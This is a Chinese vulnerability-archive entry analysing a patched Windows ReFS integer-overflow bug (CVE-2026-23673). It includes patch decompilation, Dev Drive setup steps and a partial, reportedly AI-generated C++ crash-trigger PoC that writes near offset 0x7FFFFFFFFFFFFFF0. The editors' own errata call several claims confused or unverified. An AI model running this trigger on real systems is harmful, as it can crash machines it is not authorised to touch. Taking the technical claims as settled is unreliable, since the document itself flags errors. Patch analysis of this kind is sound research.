





# CVE-2026-23673 ReFS 越界读分析

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows ReFS
- 文献类型：ReFS补丁与崩溃触发分析
- 版本、权限及部署边界：本地可写ReFS卷；创建DevDrive只是作者环境准备；精确Windows构建/refs.sys补丁前后版本缺失
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 正文把0x7fff...fff0说成ULONG Length大数，实际样例是64位文件offset加0x200/0x1000长度跨界，参数混淆需纠正
2. 给出的补丁条件在StartOffset<0时仍放行，不能泛称所有溢出直接拒绝；等式检查意义需基于真实反编译类型
3. 标题越界读，展示路径为CopyWrite崩溃，需要说明读缺陷来源与证据，不把写操作名称直接当越界写漏洞
4. PoC明确删部分代码且AI生成，无filePath/头文件定义；换行丢失使//注释吞代码，不能标完整可运行
5. Windows10/11都要开发者模式DevDrive的说法需官方版本能力核对，非所有ReFS场景必要条件
6. 无MSRC/KB/原研究链接，图片崩溃未视检，不能认定完整利用或信息泄露

### 操作风险

标题越界读，展示路径为CopyWrite崩溃，需要说明读缺陷来源与证据，不把写操作名称直接当越界写漏洞；无MSRC/KB/原研究链接，图片崩溃未视检，不能认定完整利用或信息泄露

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 毕方安全实验室
                    毕方安全实验室  BeFun安全实验室   2026-03-25 08:23  
  
   
  
# CVE-2026-23673 ReFS 越界读分析  
  
微软3月修了一个ReFS的越界读取漏洞，（AI生成：**ReFS (Resilient File System)**  
 是微软推出的一种弹性文件系统，旨在最大限度地提高数据可用性、跨不同工作负载高效扩展到大型数据集，并提供数据完整性保护。它通常用于 Windows Server 平台以及 Windows 10/11 的高级版本（如工作站版、Dev Drive 等）。）  
  
默认情况下的Windows 11不能直接创建refs格式的磁盘，需要开启开发者模式创建dev drive。  
## 补丁  
```
char __fastcall RefsCopyWriteA(        struct _FILE_OBJECT *FileObject,        __int64 *pOffset,        unsigned int Length,        __int64 a4,        int a5,        __int64 a6,        PIO_STATUS_BLOCK IoStatus){  __int64 StartOffset; // v9  __int64 EndOffset;   // v10  unsigned int Len;    // v11    if ( a6    && ((StartOffset = *pOffset,          EndOffset = StartOffset + Length,          Len = Length,          !(unsigned int)Feature_2771350842__private_IsEnabledDeviceUsageNoInline())     || StartOffset < 0     // 补丁新增的溢出校验：确保 StartOffset + Len == EndOffset 没有发生截断或溢出     || StartOffset <= EndOffset && StartOffset + Len == EndOffset) )  {    return RefsCopyWriteInternal(FileObject, &StartOffset, a6, 0, IoStatus);  }  else  {    return 0; // 如果检测到溢出，直接拒绝执行  }}
```  
  
补丁新增的核心逻辑是：  
```
StartOffset <= EndOffset && StartOffset + Len == EndOffset
```  
  
这里Length是我们可以控制的，可以传一个很大的Length进而触发整数溢出：  
```
1: kd> dq @rdx L1ffff9808`8137be18  7fffffff`fffffff0
```  
  
进而运行到nt!CcCopyWrite  
函数，此时的ULONG Length  
参数也是这个大数，引发崩溃。  
## 复现步骤  
  
Windows10/11下默认没开创建ReFS格式的VHD的功能，所以我们  
  
先打开开发者模式：  
  
  
  
然后创建一个dev drive：  
  
  
  
最小是50G：  
  
  
  
创建好以后就是ReFS格式：  
  
  
  
然后初始化以后会自动挂载，然后poc（created by Gemini 3.1 Pro）：  
```
int main(int argc, char* argv[]) {    // 省略了一些代码以防止滥用        std::cout << "[+] Creating file: " << filePath << "\n";    HANDLE hFile = CreateFileA(filePath.c_str(), GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);    if (hFile == INVALID_HANDLE_VALUE) {        std::cout << "[-] Failed to create file: " << GetLastError() << "\n";        return 1;    }    std::cout << "[+] Initializing file to ensure it is cached...\n";    char buffer[4096];    memset(buffer, 'A', sizeof(buffer));    DWORD bytesWritten = 0;        // Normal write to ensure cache maps are set up    if (!WriteFile(hFile, buffer, 1024, &bytesWritten, NULL)) {        std::cout << "[-] Initial write failed: " << GetLastError() << "\n";    }    ULONGLONG offset = 0x7FFFFFFFFFFFFFF0ULL;        OVERLAPPED ov = { 0 };    ov.Offset = (DWORD)(offset & 0xFFFFFFFF);    ov.OffsetHigh = (DWORD)(offset >> 32);        // Write across the boundary    WriteFile(hFile, buffer, 0x200, &bytesWritten, &ov);        // Also try larger lengths    WriteFile(hFile, buffer, 0x1000, &bytesWritten, &ov);}
```  
  
  
  
  
  
  
  
  
  
   
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
